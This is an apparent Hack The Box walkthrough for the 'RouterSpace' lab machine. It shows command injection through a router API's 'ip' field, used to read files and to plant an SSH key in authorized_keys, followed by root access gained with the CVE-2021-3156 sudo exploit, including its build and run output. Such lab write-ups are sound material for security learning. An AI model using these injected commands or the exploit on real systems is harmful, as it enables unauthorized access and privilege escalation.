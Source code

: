 # RouterSpace

## Tools

* [Nmap](https://nmap.org/). To discover services that is open on the router.
* [Nox](https://www.bignox.com/). To emulate the Android app provided by the router.
* [WireShark](https://www.wireshark.org/). To capture the information between the Android application with the router. I only use this, because I was not able to use other proxy tools for some reason.
* [Paw](https://paw.cloud/). To play around with the API.
* [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). To find vulnerabilities of the system so I can escalate the privilege.

## Walkthrough

### Knowing the target

To start I run nmap on the target. 

```bash
$  sudo nmap -sS 10.10.11.148
Password:
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-21 09:23 WIB
Nmap scan report for 10.10.11.148
Host is up (0.023s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.86 seconds
```

So there are two ports open on the target. A SSH port and a web port. I take a look at the page and can see the following.

![Web screenshot](media/routerspace-web-shot.png)

I play around the website for a while. If I put random directory like : `10.10.11.148/admin/` it returns a 200 page with error message. The website seems to have only a single function; to allow user to download `router.apk`. So I download that.

### Installing router.apk

For emulating Android OS, I use Nox. I then install the `router.apk` on the emulator and run the application. 

![](media/routerspace-routerapk.png)

When I click on the check status I got the router live status message.

![](media/routerspace-routerapk-result.png)

At this point, I am looking into a way to intercept the communication between the app with the router. 

### Intercept connection between application and the router

I was not able to setup the proxy to work on Nox. So eventually I use WireShark to try to find the HTTP request. After looking for a bit, I found what I am looking for. 

![](media/routerspace-wireshark.png)

The endpoint for this API is: `/api/v4/monitoring/router/dev/check/deviceAccess`. 

### Using the API

Once I have the endpoint, I use Paw to play around with the API. The API request only works if I use POST. And I need to set the `User-Agent` to `RouterSpaceAgent` and `Content-Type` to `application/json`. Once I do those things, I can send a POST request.

![](media/routerspace-apirequest.png)

When I make this call, I will return the same message. So looks like it is an echo. I know that I can list a directory `$ echo /*`. So if I use `/*` as the value for parameter `ip` and run it again.

![](media/routerspace-echo.png)

Yes! I can see a list of directories. I can read files using echo as well. All I need to do is wrap the command in ` ` (backquotes). So I can read file content by supplying the `ip` parameter with "`cat /home/paul/user.txt \`". And I got the content of the user.txt

### Getting the foothold

At this point, I am still unable to login to the system. So I look into several the directories and files. I assume that if the Paul user can login to this system, he must have an `authorized_key` in his `.ssh` folder. But I don't find anything within that folder. So I read the whole `/etc/ssh/sshd_config` just to make sure. And yes, it only allows login via `PubkeyAuthentication`. So, I created a new pair of `ssh` key. I then copy the this file to the router. I copy it by supplying the `ip` parameter with the following value: "`echo {the public key content} > /home/paul/.ssh/authorized_keys`."

Now that I have put my public key, I login to the server. And I got in.

### Privilege escalation

To see if there is a vulnerability with this router, I uploaded `linpeas`. 

```bash
$ `scp -i ~/.ssh/dummy ~/cysec/linpeas/linpeas.sh paul@routerspace.htb:/home/paul/`
```

Once I got linpeas on the server, I run it. As usual `linpeas` returns a lot of information. Part the interest me was:

![](media/routerspace-linpeas-out.png)

So I downloaded the CVE-2021-3156 exploit, but alas there is no unzip on the router. I downloaded the exploit again in my local computer and use SCP to upload to the server

```bash
$ `scp -i ~/.ssh/dummy -r ~/Downloads/CVE-2021-3156-main paul@routerspace.htb:/home/paul/
```

Once it is uploaded, I run the exploit.

```bash
paul@routerspace:~/CVE-2021-3156-main$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
paul@routerspace:~/CVE-2021-3156-main$ ./sudo-hax-me-a-sandwich .

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# ls /root
root.txt
```

And then I can access the root content.

## Source

Hack The Box.
